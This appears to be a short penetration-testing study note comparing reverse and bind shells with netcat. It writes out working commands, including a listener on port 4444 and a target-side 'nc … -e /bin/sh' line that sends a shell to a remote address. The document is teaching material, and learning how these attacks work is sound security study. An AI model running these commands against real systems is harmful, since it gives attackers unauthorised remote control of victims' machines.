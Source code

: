 ### Reverse Shell vs Bind Shell

Reverse Shell    This is the most common  
&ensp;	using a tool called `netcat`.  Reverse shell means we are making the victim computer connect to us.  
	![pic1](Images/pic1.png)  
&ensp;	`nc -lvp 4444` this will start netcat `nc` to listen verbose on port `-lvp` 4444  
&ensp;&ensp;		Can also use -n to turn off DNS  
&ensp;	`nc 192.168.1.1 4444 -e /bin/sh` on the target instructs netcat `nc` to connect to 192.168.1.1 on port 4444 and establish `-e` a shell `/bin/sh` for linux (or `cmd.exe` on a Windows device)


Bind Shell  
&ensp;	Works like a reverse shell but backwards.  We open a port on the target machine and then connect to it from our machine.  
	![pic2](Images/pic2.png)  
&ensp;	Syntax options are the same, just running them pretty much backwards from a Reverse Shell.  

Reverse shells will mostly be used for internal testing.  Bind shells can come in handy though.  The victim will always be running the `-e /bin/bash` or `-e cmd.exe` no matter which shell you use.